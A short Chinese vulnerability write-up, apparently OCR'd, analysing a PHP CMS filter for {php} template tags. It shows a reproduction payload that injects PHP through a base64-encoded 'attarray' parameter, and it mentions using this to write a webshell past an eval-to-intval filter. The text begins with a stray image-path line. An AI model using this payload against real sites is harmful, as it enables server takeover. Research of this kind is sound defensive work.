 4 Line: 将模板中php短标签转换为
21 Line: 判断传入的$content中是否包含了{php}
22 Line: 使用正则表达式匹配出$content中所有包含了“{php}任意内容{/php}”的标签
23 Line: 使用三目运算符判断匹配出来的数组中的第0个元素是否有值，如果有值那么将第0个元素的值赋给$matchs否则将空数组赋给$matchs
24 Line: 判断$matchs不为空
25 Line: 将$matchs使用foreach循环遍历
26 Line: 将$val中的“{/任意空白字符php}”替换为空并赋给$valnew
27 Line: 将$valnew中的“多个或零个0-9A-Za-Z_eval(”替换为“intval(”
28 Line: 将$valnew中的“开始为eval任意空白字符(”替换为“intval(”
29 Line: 将字符串“{php}{$valNew}{/php}”赋给$valnew
30 Line: 将$content中的$val替换为$valNew

### 漏洞复现

```
Payload:attarray=eyJ7cGhwfXBocGluZm8oKTt7XC9waHB9Ijoie3BocH1waHBpbmZvKCk7e1wvcGhwfSJ9&html={php}phpinfo();{/php} 
```

![image](img/cf4b918c9d8f67d6a49fbfc4a6cfaa22.png)

Payload生成方式:

```
base64_encode(jsonstring) 
```

eval会被替换成intval，所以我们采用base64加密写入webshell的方式
php代码如下：
